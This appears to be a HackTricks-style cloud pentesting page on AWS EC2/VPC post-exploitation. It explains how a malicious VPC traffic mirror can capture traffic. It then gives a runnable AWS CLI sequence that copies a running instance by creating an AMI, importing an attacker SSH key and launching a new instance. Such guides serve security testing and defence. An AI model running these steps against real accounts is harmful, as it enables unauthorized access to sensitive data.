 <details><summary>Support HackTricks</summary></details>
{% endhint %}

## EC2 & VPC

For more information check:

{% content-ref url="../../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### **Malicious VPC Mirror -** `ec2:DescribeInstances`, `ec2:RunInstances`, `ec2:CreateSecurityGroup`, `ec2:AuthorizeSecurityGroupIngress`, `ec2:CreateTrafficMirrorTarget`, `ec2:CreateTrafficMirrorSession`, `ec2:CreateTrafficMirrorFilter`, `ec2:CreateTrafficMirrorFilterRule`

VPC traffic mirroring **duplicates inbound and outbound traffic for EC2 instances within a VPC** without the need to install anything on the instances themselves. This duplicated traffic would commonly be sent to something like a network intrusion detection system (IDS) for analysis and monitoring.\
An attacker could abuse this to capture all the traffic and obtain sensitive information from it:

For more information check this page:

{% content-ref url="aws-malicious-vpc-mirror.md" %}
[aws-malicious-vpc-mirror.md](aws-malicious-vpc-mirror.md)
{% endcontent-ref %}

### Copy Running Instance

Instances usually contain some kind of sensitive information. There are different ways to get inside (check [EC2 privilege escalation tricks](../../aws-privilege-escalation/aws-ec2-privesc.md)). However, another way to check what it contains is to **create an AMI and run a new instance (even in your own account) from it**:

```shell
# List instances
aws ec2 describe-images

# create a new image for the instance-id
aws ec2 create-image --instance-id i-0438b003d81cd7ec5 --name "AWS Audit" --description "Export AMI" --region eu-west-1  

# add key to AWS
aws ec2 import-key-pair --key-name "AWS Audit" --public-key-material file://~/.ssh/id_rsa.pub --region eu-west-1  

# create ec2 using the previously created AMI, use the same security group and subnet to connect easily.
aws ec2 run-instances --image-id ami-0b77e2d906b00202d --security-group-ids "sg-6d0d7f01" --subnet-id subnet-9eb001ea --count 1 --instance-type t2.micro --key-name "AWS Audit" --query "Instances[0].InstanceId" --region eu-west-1

# now you can check the instance 
aws ec2 describe-instances --instance-ids i-0546910a0c18725a1 

# If needed : edit groups
aws ec2 modify-instance-attribute --instance-id "i-0546910a0c18725a1" --groups "sg-6d0d7f01"  --region eu-west-1

# be a good guy, clean our instance to avoid any useless cost
aws ec2 stop-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1 
aws ec2 terminate-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
```
